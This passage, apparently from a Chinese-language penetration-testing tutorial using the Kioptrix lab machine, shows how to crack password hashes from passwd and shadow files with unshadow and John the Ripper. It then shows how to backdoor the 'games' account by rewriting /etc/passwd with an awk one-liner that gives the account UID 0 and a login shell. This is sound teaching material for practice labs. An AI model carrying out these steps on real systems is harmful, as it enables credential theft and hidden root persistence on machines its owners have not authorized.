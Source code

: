 在 BackTrack 机器上打开一个 shell，并浏览到您的`/pentest/passwords/john`目录，我们将使用 unshadow 将 Kioptrix 的`passwd`和`shadow`文件合并成`kioptrixPW.db`。

```
# cd /pentest/passwords/john
# pentest/passwords/john# ./unshadow /root/kioptrixFiles/passwd /root/kioptrixFiles/shadow > /root/kioptrixFiles/kioptrixPW.db 

```

现在我们有了必要的文件，我们可以使用 john 尝试破解`kioptrixPW.db`中的哈希。

### 注意

请注意，破解密码可能需要几分钟、几小时，甚至几天，这取决于使用的密码的复杂性...

```
# root@bt:/pentest/passwords/john# john /root/kioptrixFiles/kioptrixPW.db 

```

在不使用漏洞的情况下更快地访问系统的方法是修改现有帐户。打开一个 shell 到您的 Kioptrix 机器，使用 samba（或任何其他允许 root 访问的漏洞），然后输入以下内容来更改 games 帐户，以允许登录和 root 访问。

```
cd /etc
awk -F ":" 'BEGIN{OFS = ":"} $1 == "games" {$3="0"}{$4="0"}{$7="/bin/bash"}{ print }' passwd > test 

```

由于我们在反向 shell 中受到的限制，我们使用`awk`来创建文件的修改版本。我们将用户和组 UID 更改为与 root 相等，并添加`/bin/bash` shell，以便我们可以远程登录。

```
cp passwd passwdOLD 

```

在更改任何现有文件之前，我们应该先备份它们。在为客户执行测试时，这一点尤为重要。

```
cp test passwd 

```

我们复制修改后的测试文件以覆盖`passwd`。

```
chmod 644 passwd 

```

将权限更改回与原始文件相匹配可能会防止未来的复杂情况。

```
passwd games 
New password: 1funnypassword
Retype new password: 1funnypassword
Changing password for user games
passwd: all authentication tokens updated successfully

```
